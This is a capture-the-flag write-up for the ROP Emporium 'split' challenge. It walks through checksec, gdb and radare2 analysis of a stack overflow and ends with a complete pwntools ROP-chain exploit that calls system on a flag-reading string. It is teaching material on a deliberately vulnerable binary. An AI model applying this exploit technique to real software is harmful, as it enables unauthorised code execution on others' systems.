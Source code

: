 ```yaml
---
title: RopEmporium - Split
date: 2021-12-17 23:20:12
summary: The elements that allowed you to complete ret2win are still present, they've just been split apart. Find them and recombine them using a short ROP chain
tags: [ropemporium, rop]
---
```


The elements that allowed you to complete ret2win are still present, they've just been split apart. Find them and recombine them using a short ROP chain

The goal of this challenge is to understand how function arguments are passed in 64bit machine when doing return oriented programming. The binary can be downloaded from the authors website [ropemporium](https://ropemporium.com).

First we check the binary protections enabled. Only **NX** (Not executable) is enabled on the device according to `checksec` binary utility as shown in the image below.

```bash
vx@archie:split$ checksec --file=split
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

For analysis of binary we use `gdb` to analyze the functions present in the binary in order to understand the logic. We disassemble **pwnme** function as shown in the image below.The function looks familiar as for the ret2win function.

```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400810
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x40083c
   0x0000000000400715 <+45>:	mov    eax,0x0
   0x000000000040071a <+50>:	call   0x400570 <printf@plt>
   0x000000000040071f <+55>:	lea    rax,[rbp-0x20]
   0x0000000000400723 <+59>:	mov    edx,0x60
   0x0000000000400728 <+64>:	mov    rsi,rax
   0x000000000040072b <+67>:	mov    edi,0x0
   0x0000000000400730 <+72>:	call   0x400590 <read@plt>
   0x0000000000400735 <+77>:	mov    edi,0x40083f
   0x000000000040073a <+82>:	call   0x400550 <puts@plt>
   0x000000000040073f <+87>:	nop
   0x0000000000400740 <+88>:	leave
   0x0000000000400741 <+89>:	ret
End of assembler dump.
(gdb)
```

From the above code, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values that is present in the memory area specified. The memory region we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the boundary of base pointer address in the stack.

![](/images/ropemporium/stack.png)

Next function is **read** function, which reads for user input from the standard input file descriptor and stores in specified buffer. From disassembled code, we are reading **0x60** bytes from the user input and storing it in our buffer. This means we are reading more than what the buffer can hold, therefore leading to stack buffer overflow.

```c
ssize_t read(int fd, void *buf, size_t count);
```

For this challenge we don't have a `ret2win` function which we are to return to. From the disassembly of the binary we have an interesting function called **usefulFunction** responsible for listing the files in the directory when called.

```nasm
(gdb) disas usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:	push   rbp
   0x0000000000400743 <+1>:	mov    rbp,rsp
   0x0000000000400746 <+4>:	mov    edi,0x40084a
   0x000000000040074b <+9>:	call   0x400560 <system@plt>
   0x0000000000400750 <+14>:	nop
   0x0000000000400751 <+15>:	pop    rbp
   0x0000000000400752 <+16>:	ret
End of assembler dump.
(gdb) x/s 0x40084a
0x40084a:	"/bin/ls"
(gdb)
```

Goal is to pass a different string to the `system` function instead of **"/bin/ls"**

From the author's hint, we can look for useful hints in the binary using either radare2.

> Now that you've gathered the elements of your exploit you can start to piece them together, you want to call system() with the **"/bin/cat flag.txt"** string as the only argument. You'll also have to start dealing with the differences between the various architectures' calling conventions.

Analyzing binary using `radare2`, we can use **iz** command to look for strings. The goal is to read the flag from the system.

```nasm
[0x004005b0]> iz
nth paddr      vaddr      len size section type  string
---------------------------------------------------------------------------------------------
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt

```

We have an important string **"/bin/cat flag.txt"** which will enable us to complete our goal. Now we need pass string to system function as follows **system('/bin/cat flag.txt')**.

For building ropchain, we need to understand the calling conventions of **AMD64 ABI**.The calling convention passes the arguments to the registers in the following order **RDI, RSI, RDX, RCX, R8 and R9**.

Because the system function receives one argument, we need to look for one gadget t that we control **rdi** address.

**What are gadgets?**

Gadgets are sequence of instructions that end with `ret` instruction. Because we want to load a value into rdi register, we look for a pop **pop rdi; ret** instruction in order to pass an argument to `system`.

For searching gadget in radare2/rizin, use **/R** command as shown in the image below.

![](/images/ropemporium/split_poprdi.png)
Now we need to chain ropchain exploit as shown in the image below.

![ropchain](/images/ropemporium/popgadget.png)

The goal is to overwrite the return address with the address of **"pop rdi, ret "** and call system function. we need to fill the buffer memory with 32bytes, 8 bytes to overwrite the `rbp` address and 8 bytes to overwrite return address with pop rdi address.

Full exploit of split challenge is;

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process("./split")

system_addr = pwn.p64(0x400560)   #address of system
pop_rdi_ret = pwn.p64(0x004007c3)  # pop rdi; ret gadget
bin_cat_addr = pwn.p64(0x00601060)  #bin cat flag.txt address

payload = b"A" * 32  #fill the buffer
payload += b"B" *8   # overwrite  rbp
payload += pop_rdi_ret # pop rdi gadget
payload += bin_cat_addr # argument passed to the system function
payload += system_addr   #call system

io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running python3 code we get a flag.

![](/images/ropemporium/split_flag.png)

> **To avoid the segmentation fault of the above, we can overwrite the rbp address with exit function address in order to exit without segfault.**
